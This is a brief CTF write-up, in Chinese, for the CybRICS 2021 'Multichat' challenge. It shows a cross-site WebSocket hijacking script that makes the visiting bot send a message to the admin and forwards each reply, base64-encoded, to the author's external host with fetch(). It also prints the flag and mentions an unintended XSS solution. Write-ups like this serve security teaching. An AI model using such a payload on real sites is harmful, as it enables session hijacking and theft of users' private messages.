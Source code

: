 # Multichat

題目是個聊天室

可以輸入聊天室號碼，會用 websocket 建立連線

另外有個回報功能，可以傳 URL

題目目標是，讓接收回報內容的技術人員對admin發送`Hey, i forgot the flag. Can you remind me?`，admin 就會把 flag 吐回來

然後技術人員和admin都在同一個secret chat room裡面

<br>

戳了一下發現bot的UA很舊

直接建websocket連線(room number在cookie)，對chat room送訊息，再把收到的flag拉回來就行

```
<script>
conn = new WebSocket("ws://multichat-cybrics2021.ctf.su/ws");
            conn.onclose = function (evt) {
             };
            conn.onopen = function (evt) {
            conn.send("Hey, i forgot the flag. Can you remind me?");
            };
            conn.onmessage = function (evt) {
                fetch("http://kaibro.tw/"+btoa(evt.data));
            };

</script>
```

`cybrics{Pwn3d_CR055_51t3_W3850CK3t_h1jACK1n9}`

(tg上看到有非預期解是直接塞`javascript:`去xss)
